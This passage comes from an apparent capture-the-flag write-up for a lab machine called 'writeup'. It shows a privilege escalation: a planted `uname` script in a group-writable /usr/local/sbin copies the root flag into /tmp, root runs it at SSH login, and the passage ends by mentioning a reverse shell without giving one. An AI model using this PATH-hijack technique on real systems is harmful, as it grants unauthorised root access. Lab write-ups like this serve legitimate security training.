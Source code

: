 Anyone in the __staff__ group can write to the /usr/local/sbin directory. I run `id` to see if jkr is part of this group.

{% highlight plaintext %}
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
{% endhighlight %}

So we should be good! I move to /usr/local/sbin and create the new `uname` file with `vi`. My script (below) simply grabs the root flag, moves it to the /tmp folder, and grants everyone read/write/execute permissions over it.

{% highlight bash %}
#!/bin/bash
cp /root/root.txt /tmp
chmod 777 /tmp/root.txt
{% endhighlight %}

I make my file executable.

{% highlight plaintext %}
jkr@writeup:/usr/local/sbin$ chmod +x uname
{% endhighlight %}

Now all that's left is triggering root's execution of `uname`. To do this, I exit my SSH session and initiate a new one.

{% highlight plaintext %}
jkr@writeup:/usr/local/sbin$ exit
logout
Connection to 10.10.10.138 closed.
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 30 20:27:06 2019 from 10.10.14.31
jkr@writeup:~$ 
{% endhighlight %}

I check the /tmp folder, and the root flag is there.

{% highlight plaintext %}
jkr@writeup:~$ cat /tmp/root.txt
eeba############################
{% endhighlight %}

# Bonus: Root shell

To get a root shell, just turn the `uname` binary into a reverse shell payload. The only roadblock is that `netcat` and `ncat` aren't on the machine.
